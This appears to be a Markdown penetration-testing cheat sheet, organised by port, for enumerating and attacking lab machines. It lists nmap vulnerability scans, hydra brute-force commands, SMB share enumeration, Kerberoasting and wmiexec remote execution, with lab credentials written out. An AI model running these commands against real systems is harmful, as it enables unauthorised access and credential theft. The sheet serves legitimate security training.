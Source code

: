 # External-Enumeration

##  NMAP

#### Silent mode
```
nmap -T4 -sS -sV -vv -Pn -p<PORT> <IP>
```
#### Agressive mode
```
nmap -T4 -sS -A -p- <IP>
```
#### UDP Scan
```
nmap -T4 -sUV <IP>
```
#### List the nmap script
```
ls -l /usr/share/nmap/scripts/smb*
```

## Fuzzing

#### Dirb
```
dirb http://10.0.0.1/abc/ /usr/share/wordlists/dirb/big.txt  
```
#### Gobuster
```
gobuster -u http://10.0.0.1/ -w /usr/share/wordlists/dirb/common.txt -e -t 20
gobuster dir -u http://10.0.0.1/ -w /usr/share/wordlists/dirb/big.txt -t 30 -e -k -x .html,.php,.asp,.aspx,.htm,.xml,.json,.jsp,.pl
```


## Vulnerability scanner
```
nikto -host=http://example.com
```

## Port 21
#### Vuln detection using nmap
```
nmap -p 21 -sV -sC --script="ftp-vuln-*, ftp-anon" 10.0.0.1-254
```
#### Hydra - Bruteforcing
```
hydra -s 21 -t 4 -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ftp
```


## Port 22
#### Hydra - Bruteforcing
```
hydra -s 22 -v -t 4 -l root -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ssh
```


## Port 25

## Port 80
```
wpscan --url http://10.0.0.1/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --api-token {toekn-api}
```

## Port 110
## Port 111
```
rpcinfo -p 10.0.0.1
rpcclient -U "" 10.0.0.1
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
```


## Port 139, 445
#### Basic enumeration
```
enum4linux -a 10.0.0.1
```

#### List nmap scripts - Detection vuln port 445 139
```
nmap -p 445,139 -Pn --script=smb-vuln-*.nse 10.0.0.1
nmap -p 445,139 -Pn --script smb-protocols.nse 10.0.0.1

nmap -v -p 139,445 --script=smb-os-discovery 10.0.0.1
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.0.0.1

nmap -v -p 139,445 --script=smb* 10.0.0.1
```

#### Connection attempt
```
smbclient -L \\10.0.0.1
smbclient -L 10.0.0.1 -U anonymous
smbclient -L 10.0.0.1 --options='client min protocol=NT1'
```

#### SMBmap List the rights on the folders / recursif mode
```
smbmap -H 10.0.0.1

// Reculsive enumeration
smbmap -H 10.0.0.1 -R

// Recursive enumeration on a specific folder
smbmap -H 10.0.0.1 -R 'Replication\active.htb'

// Authenticated enumeration
smbmap -H 10.0.0.1 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R

// Download a file
smbmap -H 10.10.0.1 --download '.\Users\SVC_TGS\Desktop\user.txt'

// If error ‘[!] Authentication error on 10.0.0.1’ try with a fake user -u ‘123’
smbmap -H 10.0.0.1 -R -u ‘123’
```

#### Detection of the version using Wireshark
```
If the following error appear "protocol negotiation failed : NT_STATUS_CONNECTION_DISCONNECTED", it's probably due to the old smb version of the victim.
Solution: Intercept the trafic of the command ‘smbclient -L \\<IP> with wireshark and search the negotiation of the smb version.
```

#### Access through through the kali folder
```
smb://<ip>/<folder>
```
#### Mount a share folder
```
mount -t cifs //10.0.0.1/share /mnt/share
mount -t cifs -o "username=user,password=password" //10.0.0.1/share /mnt/share
```

#### Bruteforce
```
hydra -L users.txt -P passs.txt smb://10.0.0.1 -t 4
hydra -L username.txt -P password.txt 10.0.0.1 smb -V
```


## Port 143
## Port 389
```
\\ With the example test.com : DOMAIN = test and DOMAIN2 = com
ldapsearch -x -h <IP> -p <PORT> -D 'USERNAME' -w 'PASSWORD' -b "dc=DOMAIN,dc=DOMAIN2" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName

./GetADUsers.py -all DOMAIN/USERNAME -dc-ip <IP>
./GetADUsers.py -all domain.com/svc_tgs -dc-ip 10.0.0.1


ldapsearch -x -h 10.0.0.1 -p 389 -D 'SVC_TGS' -w'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName


./GetUserSPNs.py DOMAIN/USERNAME -dc-ip <IP>
**EX:** ./GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.0.0.1

./GetUserSPNs.py DOMAIN/USERNAME -dc-ip <IP> -request
**EX:** ./GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.0.0.1 -request


./wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
**EX:** ./wmiexec.py active.htb/administrator:Ticketmaster1968@10.0.0.1
```


## Port 587
## Port 1433
#### Basic connection using sqsh
```
sqsh -U sa -P password -S 10.0.0.1:1433 -D mydb
```
#### Obtain a pretty output
```
go -m pretty
```
#### Execute command trough sqsh
#### Activate xp_cmdshell


## Port 3389

#### Nmap - Scan vuln
```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.0.0.1
```
#### Bruteforce 
```
hydra -L user.txt -P pass.txt 10.0.0.1 rdp
ncrack -vv --user administrator -P passwords.txt rdp://10.0.0.1,CL=1
```
#### Remote Desktop
```
rdesktop 10.0.0.1
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```
